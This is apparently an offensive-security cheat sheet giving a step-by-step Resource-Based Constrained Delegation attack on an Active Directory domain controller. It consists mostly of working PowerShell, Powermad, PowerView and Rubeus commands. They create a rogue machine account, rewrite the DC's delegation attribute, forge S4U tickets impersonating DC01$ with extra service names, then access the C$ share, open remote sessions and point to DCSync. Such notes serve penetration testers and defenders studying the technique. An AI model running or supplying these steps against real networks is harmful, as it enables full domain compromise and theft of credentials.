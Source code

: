 Define credentials for the compromised account with the necessary DACL:

```
PS > $userWithDaclUsername = 'megacorp.local\snovvcrash'
PS > $userWithDaclPassword = ConvertTo-SecureString 'Qwe123!@#' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($userWithDaclUsername, $userWithDaclPassword)
```

Add new machine account and configure RBCD (i.e., set `msDS-AllowedToActOnBehalfOfOtherIdentity` property to value of the new machine account SID) on the vulnerable host (DC01):

```
Powermad > New-MachineAccount -MachineAccount fakemachine1337 -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PowerView3 > $computerSID = Get-DomainComputer -Identity fakemachine1337 -Properties ObjectSid -Verbose -Credential $cred | select -Expand ObjectSid
PS > $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($computerSID))"
PS > $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS > $SD.GetBinaryForm($SDBytes, 0)
PowerView3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose -Credential $cred
PS > .\Rubeus.exe hash /domain:megacorp.local /user:fakemachine1337$ /password:Passw0rd!
FC525C9683E8FE067095BA2DDC971889
```

Ask TGS for CIFS and also inject [other](https://adsecurity.org/?page_id=183) potentionally useful service names into the ticket (sname field [is not protected](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) in TGS-REQ):

```
PS > .\Rubeus.exe s4u /domain:megacorp.local /user:fakemachine1337$ /rc4:FC525C9683E8FE067095BA2DDC971889 /impersonateuser:DC01$ /msdsspn:CIFS/DC01.megacorp.local /altservice:host,wsman,ldap,http /ptt
```

If the ticket cannot be imported or there's no access to corresponding services, troubleshoot it:

* Try impersonating different privileged users when requesting the ticket.
* Try using FQDN to NetBIOS under `/msdsspn` parameter (i.e., `CIFS/DC01.megacorp.local` > `CIFS/DC01`).

After the ticket has been successfully imported we can go for filesystem access (CIFS), powershell remoting (WSMAN), DCSync (LDAP) and so on:

```
PS > klist
// CIFS
PS > cd \\DC01.megacorp.local\c$
PS > ls
PS > c:
// WSMAN
PS > Enter-PSSession -ComputerName DC01.megacorp.local
PS > exit
// LDAP
PS > ...DCSync...
```
